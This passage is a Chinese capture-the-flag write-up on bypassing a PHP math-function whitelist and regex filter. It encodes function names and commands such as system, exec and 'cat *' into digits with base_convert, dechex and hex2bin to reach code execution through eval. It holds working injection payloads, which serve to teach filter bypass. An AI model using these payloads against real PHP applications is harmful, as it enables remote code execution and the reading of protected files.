 一上午都在懵逼，要么找到可以突破的数学函数，要么突破正则，应该就是这两种思路了。数学函数都看了一遍，貌似没有什么可以利用的函数。正则匹配`/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/`，这个是 [php 变量文档](https://www.php.net/manual/zh/language.variables.basics.php)中匹配有效变量名的正则。感觉两个思路都不对…最有可能的还是突破数学函数…数组可以绕之前的，但是`eval`不能执行

看了好几遍直到看到了`base_convert`可以在进制转换上做文章，而且根据[php文档--base_convert](<https://www.php.net/manual/zh/function.base-convert.php>)，我们可以知道

```
frombase 和 tobase 都只能在 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。
```

也就是第二位，第三位参数可以在 2 到 36 之间，而且高于十进制的用字母表示！既然拼接进去的都是字符串，转换出来拼接进去应该可以执行。

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2am7bamdvj22800o8495.jpg)

本地使用`base_convert(55490343972,10,36)()`成功执行`phpinfo`，远程也执行了`phpinfo`看看是不是有什么问题，看了一圈然而并没有发现什么问题。

然后尝试使用各种执行命令

```php
base_convert(15941,10,36);	//cat
base_convert(1751504350,36,10);	//system
base_convert(696468,36,10);	//exec
base_convert(784,36,10);	//ls
base_convert(21269,36,10);	//GET
```

虽然可以执行`ls`了，看到了`flag.php`，但是读不到就比较难受了。然后直接就考虑到了是不是可以有`cat *`这种操作，但是空格跟`*`都无法编码…这就比较头疼了。而且主要是还得全为数字，有字母的的话就会进`whitelist`的判断了。

所以可能要尽量避免去使用十六进制什么的含有字母的，考虑到 ascii 码可以转换，又尝试了使用`chr`函数去转换

```php
($pi=base_convert(9453,12,36)).$pi(101).$pi(120).$pi(101).$pi(99)($pi(99).$pi(97).$pi(116).$pi(32).$pi(42))

($pi=base_convert(9453,12,36)).$pi(101).$pi(120).$pi(101).$pi(99)($pi(108).$pi(115))

$pi(96).$pi(108).$pi(115).$pi(96)
```

一般的构造结果肯定不行…所以这里想用\`ls\`这种形式去执行命令，但是由于拼接的原因，一直不能执行…思路卡了很久。

看了一些相关十六进制处理的函数，直到看到了两个函数，一个`hex2bin`函数，是可以把 16 进制转换成字符串，一个`dechex`函数，把十进制转换成十六进制。

于是我们可以有

```
php > echo base_convert('636174202a',16,10);
426836762666
php > echo hex2bin(dechex(426836762666));
cat *
```

这样我们就可以把`*`这个十六进制为`2a`的转成十进制纯数字的了。

但是我们要怎么利用`hex2bin`呢，想到可以利用`base_convert`赋值变量的方式，找到最短的字符串`pi`，利用`$pi=base_convert(37907361743,10,36)`构造出`hex2bin`。

而且还因为`echo`可以接受如下的拼接方式，例如
